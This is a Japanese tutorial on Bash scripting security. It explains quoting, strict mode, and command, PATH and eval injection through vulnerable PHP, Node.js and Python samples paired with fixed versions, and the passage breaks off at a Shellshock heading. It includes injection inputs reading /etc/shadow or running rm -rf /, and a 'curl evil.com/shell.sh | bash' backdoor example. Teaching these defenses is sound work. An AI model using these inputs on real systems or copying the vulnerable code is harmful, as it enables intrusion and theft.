





## TL;DR

- Bash スクリプトは「変数・クォート・条件分岐・ループ・関数」の 5 つを押さえれば実務で使えるようになる。**クォートの使い分けを誤るとセキュリティホールになる**。ダブルクォートで変数を囲む習慣が最重要だ。
- `eval`・`$()` コマンド置換・`source` への未検証入力は**コマンドインジェクション**の入口になる。スクリプトがユーザー入力を扱う場合は全ての変数をクォートし、ホワイトリストで検証する。
- スクリプト先頭の `set -euo pipefail` はバグを早期発見する安全ネット。本番スクリプトでは必須の 1 行だ。（`-e` = エラー停止・`-u` = 未定義変数検出・`pipefail` = パイプ途中失敗検出）

---

## なぜ重要か

「スクリプトを書かなくてもコマンドを手動で打てばいいのでは？」

この問いに即答できないなら、この記事が助けになる。**Bash スクリプトはセキュリティ調査・インシデントレスポンス・CTF の自動化に欠かせないツールであり、脆弱なスクリプトは攻撃者にとって権限昇格の踏み台になる。** スクリプトの仕組みを知れば、なぜ Shellshock（CVE-2014-6271）が世界中のサーバーに影響を与えたかが見えてくる。

具体的に挙げると：

- ポートスキャン結果をループで処理して自動的に次の偵察コマンドを実行する CTF 自動化スクリプトを書く
- `find / -perm -4000` の結果を関数で処理して SUID バイナリを GTFOBins で自動照合する

> **GTFOBins とは**: Linux の標準コマンドを使った権限昇格・ファイル読み取り・シェル取得手法をまとめたデータベース（https://gtfobins.github.io）。「Get The F*** Out Binaries」の略。
- インシデントレスポンスで 100 台のサーバーに同じコマンドを並列実行して結果を集計する
- Web アプリのデプロイスクリプトに PATH 注入・eval インジェクションが潜んでいると攻撃者に悪用される
- `/etc/cron.d/` に仕込まれた悪意あるシェルスクリプトを解析して永続化手法を特定する

> **CTF とは**: Capture The Flag の略。セキュリティ技術を競う演習形式。自動化スクリプトが解答速度を大幅に向上させる。

---

## 読む前に確認したい用語

難しい用語は出てきたタイミングで解説するが、以下の概念は記事全体を通して何度も登場する。ざっと目を通してから先に進もう。

**Bash の基本概念**
- **シェバン（Shebang）**: スクリプト先頭の `#!/bin/bash` という行。OS にどのインタプリタで実行するかを伝える。`#!` の部分がシェバンと呼ばれる。
- **変数展開**: `$変数名` または `${変数名}` でシェル変数の値を文字列に展開する機能。
- **コマンド置換**: `` `command` `` または `$(command)` でコマンドの出力を文字列として展開する機能。
- **Word Splitting**: Bash がクォートなしの変数展開結果を空白・タブ・改行で分割してリストにする挙動。意図しない挙動の最大原因。
- **グロブ展開（Pathname Expansion）**: `*`・`?`・`[abc]` をファイル名パターンとして展開する機能。クォートなしだと予期せず発動する。

**クォートの種類**
- **シングルクォート `'...'`**: 全ての特殊文字を無効化してリテラル文字列として扱う。変数展開もコマンド置換も行われない。
- **ダブルクォート `"..."`**: 変数展開・コマンド置換・バックスラッシュエスケープは有効。Word Splitting とグロブ展開は無効化される。
- **エスケープ `\`**: 直後の 1 文字の特殊意味を無効化する。

**制御構造**
- **終了コード（Exit Code）**: コマンドが終了時に返す整数。`0` が成功・非 0 が失敗。`$?` で直前のコマンドの終了コードを参照できる。
- **条件分岐（`if`・`case`）**: 終了コードや文字列・数値の比較に基づいて処理を分岐する。
- **ループ（`for`・`while`・`until`）**: 繰り返し処理を行う。

**セキュリティ用語**
- **コマンドインジェクション**: ユーザー入力がシェルコマンドの一部として実行される脆弱性。
- **PATH 注入**: `PATH` 環境変数に悪意あるディレクトリを先頭に追加して、正規コマンドの代わりに悪意あるプログラムを実行させる攻撃。
- **eval インジェクション**: `eval` コマンドに渡される文字列にユーザー入力が混入して任意コードが実行される脆弱性。
- **CVE**: Common Vulnerabilities and Exposures の略。世界共通の脆弱性識別番号。
- **CVSS**: Common Vulnerability Scoring System。脆弱性の深刻度を 0.0〜10.0 で評価する指標。

---

## 仕組み

### Bash スクリプトの構成要素



Bash の安全性は「変数」と「クォート」の理解で大部分が決まる。変数をクォートなしで展開する習慣が、ほぼ全てのシェルスクリプト脆弱性の根本原因になる。

---

### コマンドインジェクション攻撃フロー



ユーザー入力を検証せずにシェル展開に渡すと、入力内のメタ文字がそのままシェルコマンドとして解釈される。ホワイトリスト検証が「あり」なら攻撃者の入力は入口で遮断できる。

---

### スクリプト実行フロー



Bash は実行前に展開処理を行う。この設計がコマンドインジェクション（シェルインジェクション）の根本原因になっており、**ユーザー入力が展開対象になるとコマンドが実行される前に攻撃者の入力がシェルの構文として解釈される**。

**計算量まとめ**

- **変数展開**: O(1)。シェルが変数テーブルを参照するだけ。
- **コマンド置換 `$()`**: O(サブシェルの実行コスト)。サブシェルを fork して実行するため相対的に重い。
- **グロブ展開**: O(n)。n はディレクトリのエントリ数。`*` が大量ファイルにマッチすると遅くなる。

**シェルの弱点 — 展開の先行評価**

Bash の展開はコマンドラインを「文字列」として評価する前に完了する。`eval "ls $user_input"` のように展開後の文字列がシェルコマンドとして二次評価されるケースでは、`$user_input` が `; rm -rf /` であれば展開後に `ls ; rm -rf /` として実行される。

---

### 変数とクォート



Bash の脆弱性の大半はクォート漏れから始まる。Word Splitting とグロブ展開を理解することが防御の第一歩だ。**ダブルクォートで囲む `rm "$file"` が唯一安全な書き方だ**。

`file="report 2026.txt"` の変数をクォートなしで `rm $file` と書くと `rm report 2026.txt`（2 引数）として実行され、`report` と `2026.txt` という別ファイルを削除しようとする。

**計算量まとめ**

- **Word Splitting**: O(n)。n は展開結果の文字数。各文字を IFS（Internal Field Separator）と比較。
- **変数代入**: O(1)。ハッシュテーブルへの書き込み。

> **IFS（Internal Field Separator）とは**: Word Splitting の区切り文字として使われる Bash の特殊変数。デフォルトはスペース・タブ・改行。`IFS=:` で変えるとコロン区切りで分割できる（`PATH` 環境変数は `/usr/bin:/bin:/usr/local/bin` のようにコロン区切りで記述されているため、`IFS=:` で各ディレクトリに分割できる）。

**変数の弱点 — 未定義変数の展開**

`set -u` なしで未定義変数を展開すると空文字列になる。`rm -rf "$prefix/"` で `prefix` が未定義なら `rm -rf "/"` と展開されてルートディレクトリを削除しようとする。`set -u` はこの種のバグを即座にエラーにして止めてくれる。

---

### 関数と引数



Bash 関数は入力検証を集中管理する境界になる。そのため関数入口でのバリデーション有無がスクリプト全体の安全性を左右する。**引数を関数内でもダブルクォートで囲む習慣が重要**で、関数に渡された時点でクォートされていても、関数内で展開するときに再度クォートが必要だ。

**計算量まとめ**

- **関数呼び出し**: O(1)。サブシェルを fork せず現在のシェルで実行（`source` や `.` と同じ）。
- **`$@` の展開**: O(n)。n は引数の個数。

> **`$@` と `$*` の違い**: `$@` は各引数をダブルクォートで囲んだときに個別の要素として展開される（`"$1" "$2" ...`）。`$*` はダブルクォートで囲むと全引数を 1 つの文字列として結合する（`"$1 $2 ..."`）。ほぼ常に `"$@"` を使う。

**関数の弱点 — export した関数の継承**

Bash では `export -f 関数名` で関数を子プロセスの環境に渡せる。CVE-2014-6271（Shellshock）はこの機能の欠陥で、環境変数に関数定義を偽装して悪意あるコードを注入できた。CGI スクリプト・SSH コマンド・DHCP フックなど、環境変数を経由して Bash を呼ぶ箇所が全て攻撃対象になった。

---

## よくある誤解

実装に進む前に、間違えやすいポイントを整理しておく。「あー、そうか」と思えるものがあれば、コードを書くときに思い出してほしい。

**「`[ ]` と `[[ ]]` は同じ」**
`[ ]` は POSIX 準拠のテストコマンドで、変数をクォートしないと Word Splitting の影響を受ける。`[[ ]]` は Bash 拡張で、**変数をクォートしなくても安全に比較でき、正規表現マッチ（`=~`）も使える**。`bash` スクリプトでは `[[ ]]` を積極的に使うべきだ。

**「変数はどこでもクォートしなくていい」**
代入（`var="value"`）はクォートが任意だが、**展開（`"$var"`）は常にダブルクォートが必要**だ。特にスペースを含む値・ファイル名・ユーザー入力はクォートなしで展開すると Word Splitting でバグになる。「展開するときは必ずダブルクォート」と覚える。

**「`set -e` があれば全てのエラーを検出できる」**
`set -e` はコマンドの終了コードが非 0 のときにスクリプトを停止するが、例外がある。`if` の条件式・`&&` や `||` の右辺・サブシェル内・関数内の一部では `set -e` が効かない。**`set -euo pipefail` をセットで使いつつ、重要なコマンドの後に `|| { echo "error"; exit 1; }` を添えるのが安全だ。**

**「シェルスクリプトに `#` 始まりの行はコメントになる」**
例外は 1 行目の `#!/bin/bash` シェバンだ。`#!` はカーネルに「このファイルの実行にはこのインタプリタを使う」と伝える特殊記法で、コメントではない。**シェバンがないスクリプトはデフォルトシェルで実行されるため、`/bin/dash` 等が使われてBash 固有の構文がエラーになることがある。**

**「`source script.sh` と `bash script.sh` は同じ」**
`bash script.sh` は新しいサブシェルでスクリプトを実行するため、スクリプト内の変数・関数は呼び出し元に影響しない。**`source script.sh`（または `. script.sh`）は現在のシェル上で実行するため、スクリプト内の変数・`cd` コマンド・関数定義が呼び出し元のシェルに引き継がれる**。設定ファイルの読み込みには `source`、独立した実行には `bash` を使い分ける。

---

## 脆弱なコード例

> 本記事の攻撃例は学習環境・CTF・明示的に許可された検証環境のみで実施してください。
> 実システムへの無断検証は不正アクセス禁止法や各国法令・利用規約違反となる可能性があります。

### PHP — shell_exec にユーザー入力を渡すコマンドインジェクション

```php
<?php
$username = $_GET['user'] ?? '';

$output = shell_exec("bash -c 'grep {$username} /var/log/auth.log'");
echo "<pre>" . htmlspecialchars($output ?? '') . "</pre>";
```

> **`$_GET['user']` とは**: HTTP GET リクエストのクエリパラメータ `user` の値を取得する PHP の超グローバル変数。例えば `/search?user=alice` でアクセスすると `$_GET['user']` が `"alice"` になる。
> **`shell_exec()` とは**: PHP でシェルコマンドを実行してその出力を文字列として返す関数。内部で `/bin/sh -c` を呼ぶためシェルのメタ文字が全て有効になる。

**どこが問題か**: `?user=alice' /etc/passwd '` のようにシングルクォートを含む入力を送るだけで、`grep` の引数の文字列が壊れてシェルの構造が変わる。`?user=; cat /etc/shadow;` を送れば `grep` の前後に任意コマンドが実行される。Web サーバーの権限でシャドウファイルの内容を読み取れる。

```php
<?php
$username = $_GET['user'] ?? '';

if (!preg_match('/^[a-zA-Z0-9_\-]{1,32}$/', $username)) {
    http_response_code(400);
    exit("無効なユーザー名です");
}

$safe = escapeshellarg($username);
$output = shell_exec("grep -F {$safe} /var/log/auth.log");
echo "<pre>" . htmlspecialchars($output ?? '') . "</pre>";
```

> **`escapeshellarg()` とは**: PHP で文字列をシェルの引数として安全にエスケープする関数。全体をシングルクォートで囲んでシェルのメタ文字を無効化する。
> **`grep -F` とは**: 正規表現を使わず固定文字列としてパターンを扱うオプション（Fixed string）。ユーザー入力に正規表現の特殊文字が含まれても安全に検索できる。

ホワイトリスト正規表現で文字種を制限してから `escapeshellarg()` でエスケープする二重防御で、コマンドインジェクションを防ぐ。

シェルへ渡す入力はホワイトリスト検証とエスケープを両方行うことが防御の基本だ。

---

### Node.js — 環境変数の PATH 注入を受けるデプロイスクリプト

```javascript
const { execSync } = require('child_process');
const express = require('express');
const app = express();
app.use(express.json());

app.post('/deploy', (req, res) => {
    const { env_path } = req.body;
    const env = { ...process.env, PATH: env_path };

    const result = execSync('git pull && npm install && npm start', { env });
    res.json({ output: result.toString() });
});

app.listen(3000);
```

> **`process.env` とは**: Node.js で現在のプロセスの環境変数を保持するオブジェクト。スプレッド構文（`...`）でコピーして一部を上書きする。

**どこが問題か**: `env_path` に `/tmp/evil:$PATH` のような値を渡すだけで、スクリプト内の `git`・`npm` コマンドが `/tmp/evil/git`・`/tmp/evil/npm` に差し替えられる。攻撃者が `/tmp/evil/git` を悪意あるスクリプトとして事前に置いておけば、デプロイ時にこの API を実行しているプロセス権限でバックドアが実行される。

```javascript
const { execFile } = require('child_process');
const express = require('express');
const app = express();
app.use(express.json());

const SAFE_ENV = {
    PATH: '/usr/local/bin:/usr/bin:/bin',
    HOME: '/tmp',
    NODE_ENV: 'production',
};

app.post('/deploy', (req, res) => {
    execFile('git', ['pull'], { env: SAFE_ENV, cwd: '/opt/app' }, (err) => {
        if (err) return res.status(500).json({ error: 'git pull 失敗' });

        execFile('npm', ['install', '--production'], { env: SAFE_ENV, cwd: '/opt/app' }, (err2) => {
            if (err2) return res.status(500).json({ error: 'npm install 失敗' });
            res.json({ status: 'deployed' });
        });
    });
});

app.listen(3000);
```

> **`execFile()` とは**: Node.js でシェルを経由せずに直接プログラムを実行する関数。引数を配列で渡すためシェルのメタ文字が解釈されない。
> **`cwd` オプションとは**: 実行するコマンドのカレントディレクトリを指定するオプション（current working directory の略）。デプロイ対象のディレクトリを明示することでパスの誤りを防ぐ。

PATH をハードコードされた安全な値に固定し、シェルを経由しない `execFile()` で個別にコマンドを実行することで、PATH 注入とコマンドインジェクションの両方を防ぐ。

環境変数は信頼せず、実行パスをスクリプト内でハードコードしてシェルを経由しない実行を選ぶことが防御の原則だ。

---

### Python — スクリプトの設定ファイルを `source` で読む際の注入

```python
import subprocess
import os
from flask import Flask, request

app = Flask(__name__)

@app.route('/config/apply')
def apply_config():
    config_file = request.args.get('file', 'default.conf')

    result = subprocess.run(
        f'source /etc/myapp/{config_file} && myapp --reload',
        shell=True,
        capture_output=True,
        text=True
    )
    return result.stdout
```

> **`source` とは**: Bash でファイルの内容を現在のシェルで実行するコマンド（`. ファイル名` とも書く）。設定ファイルを読み込むのに使うが、ファイルが Bash スクリプトとして実行されるため、悪意あるファイルを指定されると任意コマンドが実行される。

**どこが問題か**: `?file=../../tmp/evil.sh` のようなパストラバーサルを送るだけで、攻撃者が事前に作った任意のシェルスクリプトが `source` で実行される。`source` は指定ファイルをシェルスクリプトとして評価するため、ファイルに `curl evil.com/shell.sh | bash` と書いてあれば即座にバックドアが実行される。さらに `shell=True` でシェルメタ文字も有効なため二重のインジェクション経路がある。

```python
import subprocess
import os
from flask import Flask, request, abort

app = Flask(__name__)

ALLOWED_CONFIGS = {'default.conf', 'production.conf', 'staging.conf'}
CONFIG_DIR = '/etc/myapp'

@app.route('/config/apply')
def apply_config():
    config_file = request.args.get('file', 'default.conf')

    if config_file not in ALLOWED_CONFIGS:
        abort(400)

    config_path = os.path.join(CONFIG_DIR, config_file)
    real_path = os.path.realpath(config_path)
    if not real_path.startswith(os.path.realpath(CONFIG_DIR) + os.sep):
        abort(400)

    result = subprocess.run(
        ['/usr/local/bin/myapp', '--config', real_path, '--reload'],
        capture_output=True,
        text=True,
        timeout=30
    )
    return result.stdout
```

> **`os.path.realpath()` とは**: Python でシンボリックリンクと `../` を全て解決して絶対パスを返す関数。`startswith()` との組み合わせでパストラバーサルを検出できる。
> **`os.sep` とは**: OS のパス区切り文字。Linux では `/`。`CONFIG_DIR + os.sep` とすることで `/etc/myapp_extra` のような誤検出を防ぐ。

`source` を使わず専用の `--config` オプションで設定ファイルを渡し、許可済みファイル名のホワイトリストとパス正規化で二重に防御することで、スクリプトインジェクションとパストラバーサルを根本から防ぐ。

設定ファイルはシェルスクリプトとして実行せず、データとして読み込んで処理することが安全設計の原則だ。

---

## 実践例 / 演習例

### Bash スクリプトの基本構文

```bash
#!/bin/bash
set -euo pipefail
```

> **`set -euo pipefail` とは**:
> - `set -e`: コマンドが失敗（終了コード非 0）したらスクリプトを即座に停止する。
> - `set -u`: 未定義の変数を参照したらエラーにする。タイポによるバグを防ぐ。
> - `set -o pipefail`: パイプラインの途中でコマンドが失敗したら、そのコードをパイプ全体の終了コードにする。
> - これら 3 つをセットで書くのがセキュアなスクリプトの出発点だ。

```bash
NAME="recon0x"
VERSION=2
TIMESTAMP=$(date '+%Y-%m-%d %H:%M:%S')

echo "プロジェクト: ${NAME}"
echo "バージョン: ${VERSION}"
echo "実行日時: ${TIMESTAMP}"
```

> **`$(date '+%Y-%m-%d %H:%M:%S')` とは**: コマンド置換（`$()`）で `date` コマンドの出力を変数に代入する。`+` 以降がフォーマット指定で、`%Y` が 4 桁年・`%m` が月・`%d` が日・`%H:%M:%S` が時刻を表す。

### 条件分岐と文字列比較

```bash
#!/bin/bash
set -euo pipefail

TARGET="$1"

if [[ -z "$TARGET" ]]; then
    echo "使い方: $0 <ターゲット>" >&2
    exit 1
fi

if [[ "$TARGET" =~ ^([0-9]{1,3}\.){3}[0-9]{1,3}$ ]]; then
    echo "IP アドレスが指定されました: ${TARGET}"
elif [[ "$TARGET" =~ ^[a-zA-Z0-9][a-zA-Z0-9\-\.]+\.[a-zA-Z]{2,}$ ]]; then
    echo "ドメイン名が指定されました: ${TARGET}"
else
    echo "不正な入力です" >&2
    exit 1
fi
```

> **`[[ -z "$TARGET" ]]` とは**: Bash の条件式。`-z` は文字列が空（長さ 0）かどうかを確認する。`-n` は空でないかどうか。
> **`=~` とは**: Bash の `[[ ]]` 内で正規表現マッチに使う演算子。右辺がマッチしたとき真になる。
> **`>&2` とは**: 標準出力（fd 1）をファイルディスクリプタ 2（標準エラー出力）へリダイレクトする。エラーメッセージを標準エラーに送るのが慣習だ。

### ループとファイル処理

```bash
#!/bin/bash
set -euo pipefail

TARGET_DIR="${1:-.}"
RESULTS_FILE="/tmp/suid_scan_$(date +%s).txt"

echo "SUID スキャン開始: ${TARGET_DIR}"
while IFS= read -r -d '' filepath; do
    perm=$(stat -c '%a' "$filepath")
    owner=$(stat -c '%U' "$filepath")
    echo "${perm} ${owner} ${filepath}" >> "$RESULTS_FILE"
done < <(find "$TARGET_DIR" -perm -4000 -type f -print0 2>/dev/null)

echo "結果を保存しました: ${RESULTS_FILE}"
cat "$RESULTS_FILE"
```

> **`${1:-.}` とは**: Bash のデフォルト値展開。第 1 引数（`$1`）が存在しないか空のときに `.`（カレントディレクトリ）を使う。`${変数:-デフォルト値}` という構文で、変数が未設定・空のときだけデフォルト値を適用する。
> **`-perm -4000` とは**: `find` でパーミッションのマスク検索をするオプション。`4000` は 8 進数で SUID ビットを表す特殊パーミッション値。`-4000`（ハイフン付き）は「このビットが立っているファイル」にマッチする。 `find -print0` が出力する NUL 区切りのファイルパスを安全に読み込むイディオム。`IFS=` で Word Splitting を無効化・`-r` でバックスラッシュをエスケープしない・`-d ''` で NUL 文字を行区切りとして使う。スペースや改行を含むファイル名を安全に処理できる。
> **`< <(find ...)` とは**: プロセス置換（Process Substitution）の記法。`find` の出力を一時的なファイルのように `while` ループの標準入力に接続する。`| while` ではなくこの形式を使うと `while` ループがサブシェルで動かないため、ループ内の変数がスクリプト本体で参照できる。
> **`stat -c '%a'` とは**: ファイルのパーミッションを 8 進数（`%a`）で出力する `stat` コマンドの書式指定。`%U` はオーナーのユーザー名。

### 関数の定義と再利用

```bash
#!/bin/bash
set -euo pipefail

log() {
    local level="$1"
    local message="$2"
    echo "[$(date '+%H:%M:%S')] [${level}] ${message}" >&2
}

validate_ip() {
    local ip="$1"
    if [[ ! "$ip" =~ ^([0-9]{1,3}\.){3}[0-9]{1,3}$ ]]; then
        log "ERROR" "無効な IP アドレス: ${ip}"
        return 1
    fi
    local IFS='.'
    read -ra octets <<< "$ip"
    for octet in "${octets[@]}"; do
        if (( octet > 255 )); then
            log "ERROR" "オクテットの値が範囲外: ${octet}"
            return 1
        fi
    done
    return 0
}

TARGET="${1:-}"
if validate_ip "$TARGET"; then
    log "INFO" "有効な IP: ${TARGET}"
else
    log "ERROR" "スキャン中止"
    exit 1
fi
```

> **`local` とは**: Bash 関数内でローカル変数を宣言するキーワード。`local` を付けないと変数がグローバルスコープになり、関数外の同名変数を上書きするバグが起きる。関数内では全ての変数に `local` を付けるのが原則だ。
> **`(( octet > 255 ))` とは**: Bash の算術評価構文。`(( ))` 内では数値として比較や計算が行える。`[[ ]]` の `-gt` 演算子より読みやすい。
> **`read -ra octets <<< "$ip"` とは**: ヒアストリング（`<<<`）で文字列を `read` に渡し、`-a` オプションで配列に代入する。`IFS='.'` でドットを区切り文字にしているため IP の各オクテットが配列要素になる。

---

## 防御策

### 1. スクリプトに必ず `set -euo pipefail` を付ける

```bash
#!/bin/bash
set -euo pipefail
trap 'echo "エラー: $BASH_COMMAND (行: $LINENO)" >&2' ERR
```

> **`trap 'コマンド' ERR` とは**: スクリプト内でエラーが発生したときに実行するコマンドを登録する Bash の組み込み機能。`$BASH_COMMAND` は失敗したコマンド・`$LINENO` は行番号を表す変数で、デバッグに役立つ。

### 2. ユーザー入力を必ずホワイトリスト検証する

```bash
#!/bin/bash
set -euo pipefail

validate_input() {
    local input="$1"
    local pattern="$2"
    local max_len="${3:-100}"

    if (( ${#input} > max_len )); then
        echo "入力が長すぎます" >&2
        return 1
    fi
    if [[ ! "$input" =~ $pattern ]]; then
        echo "不正な文字が含まれています: ${input}" >&2
        return 1
    fi
    return 0
}

USERNAME="${1:-}"
validate_input "$USERNAME" '^[a-zA-Z0-9_\-]{1,32}$' 32

LOGFILE="${2:-access.log}"
validate_input "$LOGFILE" '^[a-zA-Z0-9_\-\.]+\.log$' 64
```

> **`${#input}` とは**: 変数 `input` の文字数（長さ）を返す Bash の長さ取得構文。`${#変数名}` という形で使い、文字列の長さ検証に便利だ。

### 3. `eval` と `$()` へのユーザー入力を避ける

`eval` を使う場合は引数を常に `printf '%q'` でエスケープする。

```bash
user_input="$1"
safe_input=$(printf '%q' "$user_input")
eval "echo ${safe_input}"
```

> **`printf '%q'` とは**: Bash の `printf` 組み込みで文字列をシェルの引数として安全にクォートする書式指定子。`%q` はシェルのメタ文字を全てエスケープした文字列を出力する。

ただし **`eval` は可能な限り使わない**ことが最善だ。同じことは多くの場合配列・関数・`[[ ]]` で実現できる。

### 4. PATH を明示的に設定する

```bash
#!/bin/bash
set -euo pipefail
PATH='/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'
export PATH
```

スクリプト先頭で `PATH` をハードコードすることで、実行環境の `PATH` が汚染されていても安全に動作する。SUID バイナリが呼ぶスクリプトでは特に重要だ。

### 5. 一時ファイルを安全に作成する

```bash
TMPDIR=$(mktemp -d)
trap 'rm -rf "$TMPDIR"' EXIT

TMPFILE=$(mktemp "$TMPDIR/work.XXXXXX")
echo "作業データ" > "$TMPFILE"
```

> **`mktemp -d` とは**: ランダムな名前の一時ディレクトリを安全に作成するコマンド（make temporary の略）。`-d` はディレクトリを作成するオプション。予測不可能な名前にすることで TOCTOU 攻撃を防ぐ。
> **`trap 'コマンド' EXIT` とは**: スクリプトが正常終了・エラー終了・シグナル受信のいずれでも終了するときにコマンドを実行する。一時ファイルのクリーンアップに使う。

---

## 実演ラボ案内

### 推奨学習順序

- terminal-basics（シェルとコマンドの基礎）
- file-pipe-commands（パイプ・リダイレクトの詳細）
- bash-scripting-basics（本記事）
- linux-permissions（スクリプトの権限管理）
- linux-privilege-escalation（スクリプトを使った権限昇格の総合演習）

### Hack The Box

- **Challenges — Scripting カテゴリ**: Bash の算術演算・文字列処理・ネットワーク通信を組み合わせた自動化スクリプトを書く問題が出題される。
- **Machines**: 初期侵入後の偵察を自動化するスクリプトを書くと調査速度が大幅に向上する。`for ip in $(cat targets.txt); do nmap -sV "$ip"; done` のような基本パターンが頻用される。

### TryHackMe

- **Bash Scripting**: 変数・条件分岐・ループ・関数を段階的に練習できる専用ルーム。
- **Linux PrivEsc**: 権限昇格スクリプト（`linpeas.sh`・`lse.sh`）の動作を理解するためにもスクリプト読解力が必要だ。

> **`linpeas.sh` とは**: Linux の権限昇格の可能性を自動的にチェックするシェルスクリプト（Linux Privilege Escalation Awesome Script の略）。CTF と実務の権限昇格調査で広く使われる。

### 自宅 VM（合法演習）

```bash
sudo apt install shellcheck
shellcheck myscript.sh
```

> **`shellcheck` とは**: Bash スクリプトの静的解析ツール。クォート忘れ・未定義変数・非推奨構文など、一般的なバグとセキュリティリスクを指摘する。スクリプトを書いたら `shellcheck` にかけることを習慣にする。

```bash
bash -n myscript.sh
bash -x myscript.sh
```

> **`bash -n` とは**: スクリプトを実行せずに構文チェックだけ行うオプション（no execution）。
> **`bash -x` とは**: スクリプトの各コマンドを実行前に表示するデバッグモード（xtrace）。変数が展開された後の実際のコマンドが確認できる。セキュリティ調査でスクリプトの動作を追跡するときに使う。

---

## 関連 CVE と被害事例

> **CVE とは**: Common Vulnerabilities and Exposures の略。世界共通の脆弱性識別番号。
> **CVSS スコア**: 脆弱性の深刻度を 0.0〜10.0 で評価した指標。7.0 以上が High・9.0 以上が Critical。

**CVE-2014-6271（Bash — Shellshock）**
